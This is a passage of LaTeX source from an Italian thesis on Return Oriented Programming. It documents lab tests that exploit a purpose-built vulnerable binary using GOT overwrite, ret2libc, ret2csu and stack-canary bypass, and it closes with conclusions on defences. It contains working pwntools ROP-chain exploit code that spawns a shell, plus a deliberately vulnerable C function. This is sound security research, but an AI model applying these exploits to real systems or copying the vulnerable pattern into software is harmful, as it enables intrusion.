add_mmrax_rbp = p64(0x401178)                   # add qword ptr [rax], rbp; ret;         
\end{lstlisting}
La chain finale aveva quindi come scopo quello di incrementare l'indirizzo di \textbf{change username}() contenuto nel puntatore sopraccitato e preparare poi i registri per la chiamata a \textbf{secret\_function}(), come nello scorso test. La differenza però è che in questo caso
non è stata richiamata direttamente tale funzionalità, fu invece chiamata \textbf{change username}(), in quanto ora il puntatore a tale voce della ``\textbf{.got.plt}'' conteneva l'indirizzo effettivo in memoria di \textbf{secret\_function}() e non più quello della precedente funzionalità:
\begin{lstlisting}[language=Python, label=rop2-sf, caption={Creazione e invio della \textbf{ROP chain} per modificare la sezione ``\textbf{.got.plt}''.}, style =Python]
rop = ROP(elf)                            # creazione oggetto rop
rop.raw(pop_r13)                          # pop r13; pop r14; pop r15; ret;
rop.raw(elf.got["change_username"])       # r13 = ptr -> change_username idx
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(mov_rax_r13)                      # mov rax, r13; ret;
rop.raw(pop_rbp)                          # pop rbp; ret;
rop.raw(secret_off)                       # rbp = off secret_function-change_username
rop.raw(add_mmrax_rbp)                    # add [rax], rbp; add offset to got entry
rop.raw(pop_r12_r13)                      # pop r12; pop r13; pop r14; pop r15; ret;
rop.raw("/bin/sh\x00")                    # r12 = "/bin/sh\x00"
rop.raw(where_to_write)                   # r13 = .data idx
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(mov_mmr13_r12)                    # mov [r13], r12; ret;
rop.raw(pop_rsi)                          # pop rsi; pop r15; ret;
rop.raw(p64(0x00))                        # rsi = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(pop_rdi)                          # pop rdi; ret;
rop.raw(where_to_write)                   # rdi = .data idx -> "/bin/sh\x00"
rop.raw(xor_rdx)                          # rdx = 0x00
rop.call("change_username")               # chiamata a secret_function 

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
p.interactive()        
\end{lstlisting}
Eseguito l'exploit completo, il risultato fu nuovamente l'esecuzione di una \textit{shell}, come fissato da obbiettivo.

\subsection{Return-to-libc con recupero versione}
\label{subsec:Test_3-3}
Quest'ultimo test della serie, vede un cambio di situazione generale non indifferente. In questo caso, infatti, non si era più in possesso del file della libreria condivisa. Si decise allora di adottare l'approccio illustrato nella sezione \ref{subsec:Attack_3.3}, ossia dopo aver determinato la versione
della \textbf{libc} collegata all'applicazione utilizzando alcuni database disponibili online, è stato recuperato l'indirizzo di base in memoria e le funzioni in essa contenute sono state impiegate.\\
Anche in questo caso inizialmente vennero impostate tutte \hyperref[env]{le variabili d'ambiente} (ad esclusione di quella dedicata alla libreria che venne momentaneamente omessa), mentre non fu recuperato alcun \textbf{gadget}, poiché come si vedrà, non risultarono necessari. 
L'\textbf{offset} per sovrascrivere l'indirizzo di ritorno era già stato recuperato nel primo test.
\\Per trovare la versione della \textbf{libc}, era essenziale recuperare l'offset statico di almeno due funzioni contenute in tale libreria (sarebbe realizzabile anche solo con una, ma con due si avrà una certezza maggiore sulla versione ottenuta). A tale scopo, come nel \hyperref[subsec:Test_3-1]{primo test} di questa serie,
è stata creata una prima \textbf{ROP chain} che chiamasse due \textbf{puts}() consecutive per stampare gli indirizzi effettivi di sé stessa e della funzione \textbf{scanf}(), in quanto entrambe già chiamate una prima volta durante il flusso d'esecuzione dell'applicazione.\\
Come ultimo elemento della chain, è stata aggiunta anche questa volta la chiamata a \textbf{change\_username}(), cosicché l'applicazione non terminasse dopo solamente l'esecuzione di essa:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Costruzione e invio della prima \textbf{ROP chain} per il recupero degli indirizzi effettivi di \textbf{puts}() e \textbf{scanf}.}, style =Python]
rop = ROP(elf)                                              # creazione oggetto rop
rop.raw(elf.symbols["puts"])                                # stampa '\n'
rop.call(elf.symbols["puts"],[elf.got["puts"]])             # stampa idx puts
rop.call(elf.symbols["puts"],[elf.got["__isoc99_scanf"]])   # stampa idx scnaf
rop.raw(elf.symbols["change_username"])                     # chiama change_username    

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                                    # invio ROP chain
p.recvlines(3) 

puts_lib_idx = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00")) 
scanf_lib_idx = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
\end{lstlisting}
Dopo aver recuperato questi due indirizzi, com'è stato spiegato \hyperref[subsec:Attack_3.3]{nella sezione dedicata a questa tecnica d'attacco}, tali informazioni sono state sfruttate per recuperare dal \href{https://libc.blukat.me/}{database online delle libc} la versione di quella collegata all'applicazione.\\
Una volta effettuato il download del file \textbf{ELF} della libreria dal database, l'obbiettivo coincideva con quello del \hyperref[subsec:Test_3-1]{primo test della serie}, ossia recuperare l'indirizzo di base in memoria per bypassare la difesa \textbf{ASLR} ed infine utilizzare qualsiasi funzionalità disponibile al suo interno.
A tale scopo venne utilizzato l'indirizzo effettivo di \textbf{puts}() ottenuto precedentemente, a cui fu sottratto l'offset statico di tale funzione presente nel file della \textbf{libc}:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Caricamento del file \textbf{ELF} della \textbf{libc} e calcolo-settaggio dell'indirizzo base di essa in memoria.}, style =Python]
libc = ELF("./libc6_2.31-0ubuntu9.2_amd64.so")

libc.address = puts_lib_idx - libc.symbols["puts"]
\end{lstlisting}
Dopo che ogni offset statico dei simboli all'interno della libreria era stato sostituito con il corrispettivo indirizzo effettivo in memoria, a differenza di quanto fatto in tutti i precedenti test, si cercò l'indirizzo alla stringa ``\textbf{/bin/sh\textbackslash00}'', in quanto sempre presente all'interno della
\textbf{libc}:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Ottenimento indirizzo della stringa ``\textbf{/bin/sh\textbackslash00}'' presente in \textbf{libc}.}, style =Python]
binsh = next(libc.search(b"/bin/sh\x00"))             # restituisce idx a "/bin/sh\x00"
\end{lstlisting}
Come ultimo passo non rimaneva che la creazione della \textbf{ROP chain} finale. Quest'ultima sequenza poteva essere composta in due differenti metodi, i quali permettono la realizzazione del medesimo risultato. La prima prevedeva una chiamata alla funzione \textbf{system} della libreria, passando ad essa come unico argomento l'indirizzo alla stringa ``\textbf{/bin/sh\textbackslash00}''
ottenuto in precedenza:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Creazione e invio della \textbf{ROP chain} effettuando la chiamata a \textbf{system}().}, style =Python]
rop = ROP([elf,libc])                     # creazione oggetto rop
rop.call("system",[binsh])                # chiama system(idx "/bin/sh\x00")

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
\end{lstlisting}
La seconda includeva l'utilizzo del metodo \textbf{execve} fornito da \textbf{pwntools}, che cerca e richiama automaticamente l'omonima funzione \textbf{execve}() presente all'interno della funzione \textbf{libc}, passandole gli argomenti necessari per eseguire una \textit{shell} come accaduto nei due test precedenti:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Creazione e invio della \textbf{ROP chain} effettuando la chiamata a \textbf{system}().}, style =Python]
rop = ROP([elf,libc])                     # creazione oggetto rop
rop.execve(binsh,0,0)                     # chiama execve(idx "/bin/sh\x00", 0, 0)

payload = dict()              
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
\end{lstlisting}
Come anticipato, in entrambi i casi il risultato finale fu la corretta esecuzione di una \textit{shell}.

\section{Test Return-to-csu}
\label{sec:Test_4}
Questo test farà riferimento alla sezione \ref{sec:Attack_4}, dov'è stata introdotta una particolare tecnica d'attacco basata sulla funzione \textbf{\_\_libc\_csu\_init}() (da cui il nome \textbf{Return-to-csu}).\\
In questo caso, non avendo più a disposizione i \textbf{gadgets} per popolare i registri destinati a contenere gli argomenti delle chiamate a funzione, risultava impossibile il richiamo della procedura \hyperref[secret function]{\textbf{secret\_function}()} contenuta nella libreria condivisa, per eseguire la shell.
Si decise allora di sfruttare questa nuova ``tecnica'', per sopperire a tale mancanza. Grazie ad essa infatti, è stato possibile controllare i primi tre registri \textbf{edi} (i primi 32 bit di \textbf{rdi}), \textbf{rsi} ed \textbf{rdx}, per richiamare poi correttamente tale funzionalità.\\
La funzione vulnerabile della libreria utilizzata è la medesima dei tre test precedenti, ossia \hyperref[change username]{\textbf{change username}()}.\\
Come per ogni altro test, il primo passo per lo sviluppo dell'exploit è stato il settaggio \hyperref[env]{delle variabili d'ambiente} (in questo caso si disponeva anche del file della libreria condivisa) ed il recupero dei \hyperref[gadgets]{gadgets utili} per la creazione della \textbf{ROP chain}, tra cui quello fornito dalla funzione  
\textbf{\_\_libc\_csu\_init}():
\begin{lstlisting}[language=Python, label=gadgets add, caption={\textbf{Gadgets} recuperati dalle istruzioni che compongono \textbf{\_\_libc\_csu\_init}().}, style =Python]
csu_gadget_comp = p64(0x401330)         # gadget preso dalla sezione __libc_csu_init. 
                                        # mov rdx, r14; mov rsi, r13; mov edi, r12d; 
                                        # call qword [r15 + rbx*8]; add rbx, 1; 
                                        # cmp rbp, rbx; jne 0x401330; add rsp, 8;
                                        # pop rbx; pop rbp; pop r12; pop r13; pop r14; 
                                        # pop r15; ret;

csu_gadget_pop =  p64(0x40134a)         # gadget preso dalla sezione __libc_csu_init
                                        # pop rbx; pop rbp; pop r12; pop r13; pop r14; 
                                        # pop r15; ret;
\end{lstlisting}
Com'era stato infatti mostrato nella figura \ref{fig:csu-gadget}, entrambe le sequenze erano state recuperate da tale porzione di codice.\\
La difficoltà nell'applicare la tecnica, in questo caso, era la gestione corretta di tali \textbf{gadgets}. Come anticipato nella sezione \ref{sec:Attack_4}, l'istruzione \texttt{\textbf{call qword [r15 + rbx*8]}}. necessita di particolare attenzione. Per far sì che essa non terminasse l'esecuzione dell'applicazione
si sarebbe dovuto inserire tra le due parentesi quadre un puntatore ad un gadget, oppure ad una qualsiasi sequenza di istruzioni terminanti obbligatoriamente con una \textbf{ret}. Solo in tale modo l'esecuzione sarebbe proseguita correttamente ripartendo dall'istruzione successiva a tale \textbf{call}.\\
Un possibile puntatore ad un \textbf{gadget} è stato ricercato all'interno del file \textbf{ELF} dell'applicazione usando lo strumento \hyperref[Radare2]{\textbf{Radare2}}.
\begin{figure}[htbp]
      \centering
      
\includegraphics[width=1\textwidth]{images/puntatore a gadget.png}
      \caption{Puntatore a \textbf{gadgets} trovato cercando all'interno della sezione \textbf{.dynamic} del file \textbf{ELF} con \hyperref[Radare2]{\textbf{Radare2}}.}\label{fig:pointer-gadget}
\end{figure}

Recuperato tale elemento, prima è stata creata la \textbf{ROP chain} per sovrascrivere la sezione ``got.plt'' pedissequamente a quanto fatto nel \hyperref[change username]{\textbf{precedente test}}, pertanto tale parte dell'attacco non sarà riportata nuovamente qui.
La parte interessante del test fu invece la gestione della seconda parte di \textbf{ROP chain}, ossia quella contenete i \textbf{gadgets} per controllare i registri \textbf{edi}, \textbf{rsi} e \textbf{rdx}.\\
Inizialmente è stato richiamato solo il secondo gadget, ossia quello composto da tutte le diverse istruzioni \textbf{pop}, così tutti i registri interessati avrebbero poi contenuto i dati corretti prima che si passasse all'esecuzione del primo gadget:
\begin{lstlisting}[language=Python, label=rop1-csu, caption={Prima sequenza della \textbf{ROP chain} che sfrutta il secondo gadget trovato in \textbf{\_\_libc\_csu\_init}().}, style =Python]
rop.raw(csu_gadget_pop)                   # riportato sopra
rop.raw(p64(0x00))                        # rbx = 0x00
rop.raw(p64(0x01))                        # rbp = 0x01
rop.raw(where_to_write)                   # r12 = .data idx -> "/bin/sh\x00"
rop.raw(p64(0x00))                        # r13 = 0x00
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x403e48))                    # r15 = ptr a gadget 
\end{lstlisting}
Com'è possibile notare dalla porzione di codice sopra riportato, in \textbf{r12} è stato inserito l'indirizzo su cui risiede la stringa ``\textbf{/bin/sh\textbackslash00}'', dato che tale contenuto sarebbe andato poi in \textbf{edi}. I due registri \textbf{r13} e \textbf{r14}, sono stati posti 
a \textbf{zero} poiché anch'essi avrebbero trasmesso tale valore rispettivamente ad \textbf{rsi} e \textbf{rdx}. 
Per quanto riguarda invece \textbf{rbx} ed \textbf{rbp}, il primo era stato azzerato, il secondo invece era stato impostato ad \textbf{uno}, cosicché la seguente sotto sequenza del primo \textbf{gadget} non eseguisse l'istruzione \textbf{jne} finale:\\\\
\begin{text}
\noindent
\hspace*{5.6cm}\texttt{\large{\textbf{\textcolor{Bittersweet}{ADD}  \space  RBX, \space 1;}}}\\
\hspace*{5.6cm}\texttt{\large{\textbf{\textcolor{Bittersweet}{CMP}  \space  RBP, \space RBX;}}}\\
\hspace*{5.6cm}\texttt{\large{\textbf{\textcolor{Bittersweet}{JNE}  \space  0X401330;}}}\\\\
\end{text}
Infatti, se \textbf{rbx} prima conteneva \textbf{zero}, dopo l'\textbf{add} conterrà 1, e confrontandosi con \textbf{rbp} che conteneva già \textbf{uno}, risulteranno uguali evitando di fatto la \textbf{jne}.\\
L'ultimo registro rimasto era \textbf{r15}, che a differenza degli altri conteneva l'indirizzo del puntatore al gadget trovato nelle prime fasi del test, in quanto l'istruzione \textbf{call} avrebbe sfruttato solamente il suo di contenuto, essendo \textbf{rbx} inizialmente nullo.\\
Come ultimo passaggio per la creazione dell'exploit venne aggiunta la parte finale della \textbf{ROP chain}, ossia quella contenente la chiamata al primo gadget e alla \textbf{secret\_function}():
\begin{lstlisting}[language=Python, label=rop1-csu, caption={Prima sequenza della \textbf{ROP chain} che sfrutta il secondo gadget trovato in \textbf{\_\_libc\_csu\_init}().}, style =Python]
rop.raw(csu_gadget_compl)                 # riportato sopra
rop.raw(p64(0x00) * 7)                    # add rsp, 8; rbx = 0x00; rbp = 0x00;  
                                          # r12 = 0x00; r13 = 0x00; r14 = 0x00; 
                                          # r15 = 0x0;
rop.call("change_username")               # chiamata a secret_function

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
p.interactive()
\end{lstlisting}
Una volta terminato l'attacco, il risultato nel suo complesso fu la corretta esecuzione di una \textit{shell}.

\section{Test bypass del "Canary"}
\label{sec:Test_5}
Per concludere, questo ultimo test ha come scopo il superamento di una meccanica di difesa detta "\textbf{Stack Canary}" o "\textbf{Stack Canaries}".\\ Come spiegato nella sezione \ref{sec:stack canaries}, tale metodo cerca di preservare il sistema da attacchi malevoli realizzati
avvalendosi delle vulnerabilità della classe \hyperref[subsec:Stack-buffer overflow]{\textbf{stack-buffer overflow}}. Tuttavia, come si vedrà in questo test, in determinate condizioni tale difesa sarà comunque superabile, continuando ad utilizzare la \textbf{Return Oriented Programming}.\\
Essendo lo "\textbf{stack canary}" al centro di questo test, esso è stato abilitato sia nel codice principale che in quello della libreria condivisa:
\begin{figure}[htbp]
      \centering
      
\includegraphics[width=.3\textwidth]{images/sec-vuln-canary.png}\hfil
      
\includegraphics[width=.3\textwidth]{images/sec-canary-lib.png}
      \caption{Difese attive nel \textbf{codice principale} e nella \textbf{libreria condivisa}}\label{fig:checksec2}
\end{figure}
\\La funzione vulnerabile della libreria sfruttata durante quest'ultima prova è la seguente:
\begin{lstlisting}[language=C, label=new credentials canary, caption={Funzione \textbf{new\_credentials\_canary}() della libreria condivisa.}, style=C lang]
void new_credentials_canary(){
    char username[16];
    char password[3];
    char *conf;
    
    puts("\nInserisci l'username:");
    read(0,username,0x10);
    printf(username);
    puts("\nInserisci la password:");
    read(0,password,0x10);
    printf(password);
    puts("\nConferma password:");
    read(0,conf,0x100);
}
\end{lstlisting}
Com'è possibile notare è presente un puntatore non inizializzato e due buffer di cui uno su cui è possibile fare overflow. Inoltre, potrebbero essere inserite delle format string per recuperare alcuni dati dallo \textbf{stack}.\\
Nella sezione \ref{sec:canary bypass} è stato spiegato l'approccio con cui è stato sviluppato l'exploit per completare l'attacco. È stata impiegata tale tecnica poiché in grado di sfruttare al meglio tutte le vulnerabilità presenti.\\
Come nei precedenti attacchi il primo passaggio è stata l'impostazione delle \hyperref[env]{variabili d'ambiente} ed il recupero dei \hyperref[gadgets]{\textbf{gadgets}} utili. L'\textbf{offset} è stato calcolato successivamente, in quanto richiedeva un approccio leggermente diverso rispetto
a quello utilizzato in precedenza.\\
Per poter proseguire lo sviluppo dell'attacco era necessaria la determinazione dell'indirizzo della porzione di stack su cui risiedeva l'indirizzo di ritorno, per poterlo sostituire a quello del puntatore presente.
A tale scopo, è stata utilizzata la prima funzione \textbf{read}() per inserire nel buffer una format string, e poter così recuperare uno degli indirizzi presenti in memoria. Nello specifico, fu ottenuto l'indirizzo del vecchio valore di \textbf{rbp}, il quale è sempre presente 
all'interno dello stack. Sottraendo poi ad esso un offset statico ad ogni esecuzione e corrispondente alla distanza tra esso e il posizionamento nello stack dell'obbiettivo, si ottenne la posizione dell'indirizzo di ritorno:
\begin{lstlisting}[language=Python, label=format-string, caption={Invio format string per stampare vecchio contenuto di \textbf{rbp} e calcolo della posizione nello stack dell'indirizzo di ritorno.}, style =Python]
payload = dict()              
payload[0] = b"%12$p\n"                   # stampa il settimo elem. stack : old rbp
p.sendline(fit(payload))            

ret_pos = (int(p.recvline(False).decode('utf-8'),16) - 168).to_bytes(8,'little') 
\end{lstlisting}
Ottenuta tale informazione, il passo successivo fu quello del sovrascrivere, grazie al overflow dato dalla seconda chiamata a \textbf{read}(), l'indirizzo del puntatore non inizializzato con quello appena determinato.\\
L'\textbf{offset} per effettuare tale operazione era pari alla dimensione del buffer su cui si sarebbe scritto, ossia tre byte, permettendo così la sostituzione dell'indirizzo del puntatore con l'input rimanente:
\begin{lstlisting}[language=Python, label=pointer-over, caption={Invio input per sovrascrittura indirizzo puntatore con posizione nello stack dell'indirizzo di ritorno.}, style =Python]
payload = dict()
payload[3] = ret_pos                      # posizione indirizzo di ritorno
p.sendline(fit(payload))
\end{lstlisting}
Infine, è stata costruita la \textbf{ROP chain} che sovrascriveva l'indirizzo di ritorno, saltando però lo \textbf{stack canary}, dato che l'ultima chiamata a \textbf{read}() scriveva direttamente nella zona dello stack su cui era posizionato l'indirizzo di ritorno.
La catena creata era molto simile a quella del \hyperref[subsec:Test_3-2]{test con sovrascrittura della sezione ``\textbf{.got.plt''}}, l'unica differenza era la sovrascrittura della voce associata alla funzione \textbf{new\_credentials\_canary}() rispetto a quella di 
\textbf{new\_credentials}(). Tale parte sarà quindi omessa.\\
Anche in quest'ultimo test, il risultato finale è stato la corretta esecuzione di una \textit{shell}, utilizzando comunque la \textbf{ROP} anche in presenza dello \textbf{stack canary}.
\chapter{Conclusioni}
\label{chap:Conclusion}
I test effettuati hanno permesso di determinare l'efficacia ancora attuale della \textbf{Return Oriented Programming}. Essa rappresenta tuttora una minaccia per i sistemi informatici 
e se sottovalutata potrebbe arrecare ad essi ingenti danni.\\
Spesso una apparentemente innocua disattenzione da parte del programmatore rappresenta la principale causa di rottura dell'integrità di un'applicazione, 
costituendo di fatto un possibile appoggio per un attacco da terzi.\\Tale tecnica è un potente strumento poiché in grado di adattarsi a molteplici sistemi e differenti situazioni che potrebbero essere riscontrate. 
Per la suddetta ragione molte rilevanti aziende nel campo informatico, come ad esempio \textbf{Intel} o \textbf{AMD}, nel corso degli anni hanno proposto diverse soluzioni volte ad evitare attacchi realizzati attraverso la \textbf{ROP}.\\
Per poter proteggere al meglio un'applicazione non solo diviene essenziale implementare tali strategie difensive, ma sarà necessario evitare in principio di introdurre all'interno di esse delle vulnerabilità.\\
Al giorno d'oggi esistono un elevato numero di tipologie differenti di cyber attacchi con effetti più o meno gravi sul sistema di destinazione, dunque diventa sempre più complesso lo sviluppo di difese efficaci 
che precludano di eseguire un'offensiva in qualsiasi caso. Nonostante la presenza di efficaci meccanismi difensivi, quali la \textbf{W$\oplus$X} oppure la \textbf{ASLR}, con l'esistenza di tecniche come quella
analizzata nel seguente elaborato, alcune delle zone di memoria di maggior importanza del sistema saranno comunque vulnerabili ad eventuali attacchi.\\
Un altro importante fattore da non sottovalutare è la sempre più crescente presenza di strumenti che rendono relativamente semplice ed automatizzabile la produzione di exploit efficaci. Basti pensare a quelli utilizzati nei
test di questo lavoro di tesi, grazie ad essi alcune delle più complesse operazioni risultano notevolmente semplificate, dando la possibilità di creare attacchi articolati e quasi completamente automatizzabili anche per utenti meno esperti.\\
La \textbf{Return Oriented Programming} e tutte le altre tecniche derivanti da essa, rappresentano quindi una minaccia tanto potente quanto pericolosa, costituendo di fatto una problematica sia presente sia futura.\\
Tutti gli attacchi descritti nelle sezioni precedenti dimostrano come questa tecnica possa risultare estremamente versatile ed adattabile ad ogni tipologia di vulnerabilità presentata. Tuttavia, anch'essa possiede diverse limitazioni
che la possono rendere evitabile. Nello specifico è possibile notare come per alcuni degli attacchi fosse necessaria la presenza di determinate condizioni per poter eseguire con successo un attacco completo. Nella realtà dunque, tale tecnica 
non sempre sarà utilizzabile poiché tali condizioni non saranno sempre verificabili.\\
In conclusione, la tecnica d'attacco informatico \textbf{ROP}, nonostante la sua apparente semplicità può essere ancora considerata uno strumento pericoloso se utilizzata da utenti malintenzionati. Essa potrebbe portare conseguenze rilevanti soprattutto in un periodo storico particolarmente caratterizzato dallo sviluppo tecnologico come quello attuale.

\appendix
% INCLUSIONE APPENDICI - - PERSONALIZZARE - TENERE COERENTE CON LISTA IN ALTO
\include{chapter/app_a}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% BIBLIOGRAFIA
\phantomsection
\addcontentsline{toc}{chapter}{\refname}
\nocite{*}
\printbibliography

\end{document}
